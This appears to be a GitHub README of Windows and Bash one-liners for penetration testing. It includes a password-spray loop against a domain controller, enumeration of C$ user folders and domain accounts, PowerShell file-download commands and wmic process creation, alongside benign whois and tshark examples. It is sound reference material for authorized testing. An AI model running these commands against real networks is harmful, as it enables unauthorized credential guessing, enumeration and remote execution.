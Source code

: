 # oneliners
One line DOS commands useful during pentests

Get-ChildItem -Recurse | Where-Object {$_.LastWriteTime -gt (Get-Date).AddDays(-180)}   #returns files modified in past 180 days

for /f %a in (hosts.txt) do dir /b /s \\\\%a\\C$\\Users\\file*

for /f %a in (hosts.txt) do @if exist \\\\%a\\C$\\Users\\ echo users found on %a

Build a user list, but will need to edit the output before using
for /f "skip=2 tokens=1,2,3" %i in ('net user /domain') do @echo %i >>testuser.txt & @echo %j >>testuser.txt & @echo %k >>testuser.txt

password spray
@FOR /F %n in (users.txt) DO @FOR /F %p in (pass.txt) DO @net use \\DOMAINCONTROLLER\IPC$ /user:DOMAIN\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use /delete \\DOMAINCONTROLLER\IPC$ > NUL 

invoke-webrequest -uri url -outfile filename
(New-Object System.Net.WebClient).DownloadFile("url","output")

wmic process call create "cmd.exe /c calc.exe"

(Bash) for i in (cat filename); do echo $i; done

With GDPR there is different information available between variosu registrars.  This whois query will query the specific registrar and return results direct from the registrar:
whois -h $(whois apple.com | grep 'WHOIS Server' | cut -d: -f 2) apple.com
or look up a few like this:
for i in sans.org theonion.com; do whois -h $(whois $i | grep 'WHOIS Server' | cut -d: -f 2) $i; done

This is more for the powershell stuff at the end of the line:

tshark -r e:\capture\random.pcap -Y http.user_agent -T fields -e http.user_agent | powershell -nop "$input | group-object | Select-Object -Property Count, Name | Sort-Object -Property Count -Descending "

tshark -r e:\capture\random.pcap -Y http.user_agent -T fields -e http.user_agent | powershell -nop "$input | group | select Count, Name | sort Count -d"

tshark -r e:\capture\m2.pcap -Y http.user_agent -T fields -e http.user_agent | powershell -nop "$input | group | select Count, Name | sort Count -d"










